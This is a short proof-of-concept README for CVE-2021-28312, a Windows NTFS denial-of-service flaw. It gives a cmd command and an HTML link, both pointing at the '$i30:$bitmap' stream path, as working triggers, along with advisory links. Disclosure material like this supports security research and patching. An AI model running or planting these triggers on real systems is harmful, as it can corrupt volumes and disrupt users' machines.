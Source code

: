 # CVE-2021-28312
POC and description for CVE-2021-28312
### Windows NTFS Denial of Service Vulnerability
Link: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-28312
### Reproduction 
From cmd: type following command `cd c:\:$i30:$bitmap` <br/>
Remote exploitation possibility: Can be done by adding following link on locally loaded page
```
<a href="file:\\c:\:$i30:$bitmap">Click here</a>
```
---
Details about $i30 attribute: https://www.sans.org/blog/ntfs-i30-index-attributes-evidence-of-deleted-and-overwritten-files/
